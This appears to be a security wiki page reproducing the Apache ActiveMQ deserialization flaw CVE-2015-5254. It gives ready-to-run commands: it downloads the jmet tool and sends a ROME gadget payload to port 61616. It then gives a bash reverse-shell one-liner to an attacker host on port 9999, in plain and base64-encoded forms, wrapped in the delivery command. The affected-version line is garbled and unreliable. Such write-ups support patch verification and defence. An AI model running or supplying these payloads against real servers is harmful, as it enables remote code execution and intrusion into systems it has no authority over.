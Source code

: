 ```yaml
---
Title: Apache ActiveMQ Deserialization Vulnerability CVE-2015-5254
---
```


# Apache ActiveMQ Deserialization Vulnerability CVE-2015-5254

## Vulnerability Description

Apache ActiveMQ is a set of open source messaging middleware developed by the Apache Software Foundation in the United States. It supports Java message services, clusters, Spring Framework, etc. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache ActiveMQ version 5.13.0 before 5.x</span>

## Vulnerability reappears


</a-alert>

```shell
wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
mkdir external
```

Send a payload that generates `/tmp/vuln` to the target

```plain
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/vuln" -Yp ROME xxx.xxx.xxx.xxx 61616
```

Visit `https://xxx.xxx.xxx.xxx:8161/admin/browse.jsp?JMSDestination=event` to see an extra message queue

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220308145025293.png)

Click this information to trigger file creation

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220308145111363.png)

Successfully execute the command to create a file, or create a payload of `bounce shell`

```shell
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

发送payload
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME xxx.xxx.xxx.xxx 61616
```

Clicking the message queue will trigger the command execution

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220308145310216.png)